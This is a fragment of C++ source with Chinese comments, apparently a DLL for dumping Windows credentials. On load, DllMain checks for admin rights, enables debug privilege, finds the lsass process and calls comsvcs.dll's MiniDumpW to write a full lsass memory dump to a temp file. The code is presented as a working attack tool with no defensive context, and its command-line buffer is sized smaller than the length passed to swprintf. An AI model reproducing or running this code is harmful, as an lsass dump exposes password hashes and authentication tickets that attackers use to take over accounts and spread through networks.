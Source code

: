 ```cpp
{
    WCHAR commandLine[MAX_PATH]; //命令行参数
    WCHAR DumpFile[] = L"C:\\Windows\\Temp\\test.log"; //转储文件的路径
    _MiniDumpW MiniDumpW; //MiniDumpW 函数的指针
    DWORD lsassPID = 0;  //存放lsass进程的PID

    // 检查是否具有管理员权限
    if (!CheckPrivilege()) 
	{
        return -1;
    }
    
    // 启用调试权限
    if (!EnableDebugPrivilege()) 
	{
        return -1;
    }

    // 获取lsass进程的PID
    lsassPID = GetLsassPID();

    // 获取 MiniDumpW 函数的地址
    MiniDumpW = (_MiniDumpW)GetProcAddress(LoadLibrary(L"comsvcs.dll"), "MiniDumpW");
    
    // 准备MiniDumpWh函数的参数,full是传递给MiniDumpW函数的参数之一，表示创建一个完整的内存转储
    swprintf(commandLine, 512, L"%d %s full", lsassPID, DumpFile);

    // 调用 MiniDumpW 函数创建内存转储文件
    MiniDumpW(0, 0, commandLine);
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule, 
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        Dump();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

